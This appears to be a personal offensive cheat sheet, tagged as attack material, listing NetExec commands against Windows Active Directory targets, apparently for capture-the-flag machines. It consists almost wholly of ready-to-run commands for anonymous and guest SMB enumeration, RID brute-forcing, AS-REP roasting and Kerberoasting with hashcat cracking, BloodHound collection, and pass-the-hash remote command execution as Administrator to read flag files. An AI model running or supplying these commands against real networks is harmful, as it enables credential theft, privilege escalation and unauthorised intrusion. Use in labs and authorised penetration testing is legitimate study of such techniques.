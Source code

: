 # nxc
#plateform/linux #target/remote #cat/ATTACK

## nxc smb spider module
```
nxc smb <ip>  -u  <user> -p '<passwd>' -M spider_plus 
```

## nxc2 for generating HOST File
```
nxc smb <ip> --generate-hosts-file hosts_file 
```

## SMB all in one
```
nxc smb <ip> -u '<user>' -p '<passwd>' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## SMB null all in one
```
nxc smb <ip> -u '' -p '' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## SMB guest all in one
```
nxc smb <ip> -u 'a' -p '' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## LDAP anonymous all in one
```
nxc ldap <ip> -u '' -p ''
```

## LDAP all in one
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --users --asreproast hashes.asreproast --kerberoasting hashes.kerberoast; hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force; hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```
## Checking ADCS
```
nxc ldap <ip> -u '<user>' -p '<passwd>' -M adcs
```

## Check kcache tickets
```
nxc smb <ip> -k --use-kcache -u <user> -X "whoami"
```

## Generate krb5 file
```
nxc smb <ip> -u <user> -p <password> --generate-krb5-file <out_file>
```

## Execute bloodhound
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --bloodhound --collection All --dns-server <ip>
```

## Execute bloodhound w/o ObjectProps
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --bloodhound --collection Group,LocalAdmin,RDP,DCOM,Container,PSRemote,Session,Acl,Trusts,LoggedOn --dns-server <ip>
```

## Cat user.txt with administrator hash
```
nxc smb <ip> -u Administrator -H '<hash>' -x 'powershell -c "Get-ChildItem -Path C:\users -Recurse -Force -Filter user.txt -ErrorAction SilentlyContinue | % { Write-Host \"Found at: $($_.FullName)\"; Get-Content $_.FullName }"'
```

## Cat root.txt with administrator hash
```
nxc smb <ip> -u Administrator -H '<hash>' -x 'type C:\Users\Administrator\Desktop\root.txt'
```

